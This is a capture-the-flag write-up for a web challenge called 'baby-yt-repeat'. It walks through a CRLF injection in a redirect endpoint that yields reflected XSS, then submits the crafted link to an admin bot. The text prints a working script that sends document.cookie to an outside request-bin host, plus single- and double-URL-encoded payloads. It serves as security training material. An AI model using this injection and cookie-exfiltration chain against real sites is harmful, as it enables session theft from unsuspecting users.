










# baby-yt-repeat (web)

# Challenge description:

Welcome to Baby YouTube Repeat, the world's #2 site to repeat YouTube videos, discover the new music you'll love and share it with the world.

Hint: [twitter.com/Black2Fan/status/1311630481084026881](http://twitter.com/Black2Fan/status/1311630481084026881)

Flag format: UNR{xxxx-xxxx...}

# Flag proof:

> UNR{uda5em-xzpbvq-iyb5mm-5rpy7h-4c7zqk-4gywh3-rmcgbp-e7bak5}

# Summary:

The website asks for a YouTube link and displays it in an embedded iframe. But before arriving at the YouTube embed link, it makes a request to `/embed` which responds with a 302 Found. We also have in the page a `Report page` button. We can make a self-XSS attack with the redirection page, and then report that page to the admin, which will make a request to a server we own and we get the cookie from the flag

# Details:

Here is the main page:



We can input a YouTube link:



If we put any other kind of link we get an `Internal Server Error`. Or not really any other kind. We need a link that contains a `?v=` and then exactly 11 characters. For example, `google.com?v=12345678910` works. But apparently this was not relevant to the challenge. Let's look at the requests the page makes when opening a YouTube link:



It makes a request to `/embed` that responds with 302 Found and then redirects to the actual YouTube embed link. We can exploit this into a self-XSS with a CRLF injection. Let's add `%0d%0a` at the end



We get an `Interesting!` message. Let's try a script:



No script in the response. Let's add another CRLF:



The script tag is visible! I tried running it in Chrome but the script did not execute. This is because of the Location header in the response, we need to get rid of it. The easiest way is by adding a CRLF at the beginning of the link:



The Location header is gone. Let's run it in Chrome



Success! Now we can have remote code execution in the Report page. But first let's craft our payload to send a request to a server we can control, along with the cookies (most challenges of this type store the flag in the cookies):

```html
<script>
  window.location = "[link]?flag=" + document.cookie;
</script>
```

```bash
/embed?ytlink=%0d%0ahttps%3A%2F%2Fwww.youtube.com%2Fembed%2FdQw4w9WgXcQ%3Fautoplay%3D1%26loop%3D1%26version%3D3%26playlist%3DdQw4w9WgXcQ%0d%0a%0d%0a%3Cscript%3Ewindow.location%20%3D%20%22https%3A%2F%2Fhookb.in%2FQJD6zaGX9OT8mNzzme9Y%3Fflag%3D%22%20%2B%20document.cookie%3C%2Fscript%3E
```

And we get a request! We only have to send it to the report page. Let's see how the request looks like:



The endpoint is `/report-bug` and the parameter is `url`. It accepts an url on the site, but luckily the `embed` endpoint is on the site. So we just need to report the `/embed?ytlink=[payload]`. We need to encode the payload once, and then re-encode the whole url again, because we have nested urls.

```html
%2Fembed%3Fytlink%3D%250d%250ahttps%253A%252F%252Fwww.youtube.com%252Fembed%252FdQw4w9WgXcQ%253Fautoplay%253D1%2526loop%253D1%2526version%253D3%2526playlist%253DdQw4w9WgXcQ%250d%250a%250d%250a%253Cscript%253Ewindow.location%2520%253D%2520%2522https%253A%252F%252Fhookb.in%252FQJD6zaGX9OT8mNzzme9Y%253Fflag%253D%2522%2520%252B%2520document.cookie%253C%252Fscript%253E
```

And we get the flag!


